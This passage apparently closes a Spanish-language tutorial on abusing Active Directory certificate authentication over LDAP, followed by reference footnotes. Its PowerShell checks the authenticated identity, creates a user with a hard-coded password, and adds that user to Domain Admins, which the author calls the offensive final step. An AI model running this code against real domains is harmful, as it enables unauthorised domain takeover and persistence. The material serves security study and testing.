 Tal y como se hace en _PassTheCert_[^19], en primer lugar podemos verificar con que usuario nos hemos autenticado.

**Whoami**
```powershell
$whoami_req = New-Object System.DirectoryServices.Protocols.ExtendedRequest("1.3.6.1.4.1.4203.1.11.3")
$whoami_resp = [System.DirectoryServices.Protocols.ExtendedResponse]$LdapConnection.SendRequest($whoami_req)
Write-Host "Authenticated as:"
$response = [System.Text.Encoding]::ASCII.GetString($whoami_resp.ResponseValue)
Write-Host "`t$response"
```
A modo de verificación es una opción, pero continua sin tener fines ofensivos, y por tanto como último paso vamos a añadir un usuario al directorio activo, e incluir este al grupo de administradores de dominio, por tanto restan las siguientes dos acciones.

**Creación de usuario**
```powershell
$computer_dn = "CN=NewUser,CN=Users,DC=weird,DC=local"
$upwd = [System.Text.Encoding]::Unicode.GetBytes("P4ssw0rd")
$attributes = [System.DirectoryServices.Protocols.DirectoryAttribute []] @(
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "objectClass",@("user")
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "givenName","newUser"
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "sAMAccountName","newUser"
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "userAccountControl","544"
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "cn","newUser"
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "pwdLastSet","-1"
)
$add_req = New-Object System.DirectoryServices.Protocols.AddRequest($computer_dn,$attributes)
try{
    $add_resp = [System.DirectoryServices.Protocols.AddResponse]$LdapConnection.SendRequest($add_req)
}
catch[System.DirectoryServices.Protocols.DirectoryOperationException]
{
    $PSItem.ToString()
}
``` 

**Incluir en grupo**
```powershell
$addMod= New-Object System.DirectoryServices.Protocols.DirectoryAttributeModification
$addMod.Name="member"
$addMod.Add("CN=NewUser,CN=Users,DC=weird,DC=local")
$addMod.Operation=[System.DirectoryServices.Protocols.DirectoryAttributeOperation]::Add
$mod_req=New-Object System.DirectoryServices.Protocols.ModifyRequest ("CN=Domain Admins,CN=Users,DC=weird,DC=local",$addMod)
$mod_resp=[System.DirectoryServices.Protocols.ModifyResponse]$LdapConnection.SendRequest($mod_req)
```


[^1]: [certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
[^2]: [reg](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg)
[^3]: [MMC](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/mmc)
[^4]: [certreq](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certreq_1)
[^5]: [Obtención de certificado mediante certreq](https://learn.microsoft.com/en-us/system-center/scom/obtain-certificate-windows-server-and-operations-manager?view=sc-om-2022&tabs=Standal%2CEnter)
[^6]: [CSR](https://social.technet.microsoft.com/wiki/contents/articles/20580.wiki-glossary-of-technology-acronyms.aspx#C)
[^7]: [SecurityMasks](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.securitymasks)
[^8]: [Clase DirectorySearcher](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.directorysearcher)
[^9]: [msPKI-Cert-Template-OID](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/4849b1d6-b6bf-405c-8e9c-28ede1874efa)
[^10]: [pKIExtendedKeyUsage](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/be8af2e6-01d8-49a5-bacf-be641041ac73)
[^11]: [msPKI-RA-Application-Policies](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/3fe798de-6252-4350-aace-f418603ddeda)
[^12]: [msPKI-RA-Policies](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/398eec80-19b4-42c6-a8eb-357bec133d4d)
[^13]: [msPKI-Certificate-Application-Policy](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/44012f2d-5ef3-440d-a61b-b30d3d978130)
[^14]: [msPKI-Enrollment-Flag](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/ec71fd43-61c2-407b-83c9-b52272dec8a1)
[^15]: [msPKI-Certificate-Name-Flag](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1)
[^16]: [PkiCertificateAuthorityFlags](https://github.com/GhostPack/Certify/blob/2b1530309c0c5eaf41b2505dfd5a68c83403d031/Certify/Domain/CertificateAuthority.cs#L23)
[^17]: [Certify](https://github.com/GhostPack/Certify/blob/main/Certify/Lib/LdapOperations.cs)
[^18]: [Vadims Podāns](https://www.sysadmins.lv/blog-en/introducing-to-certificate-enrollment-apis-summary.aspx)
[^19]: [PassTheCert](https://github.com/AlmondOffSec/PassTheCert)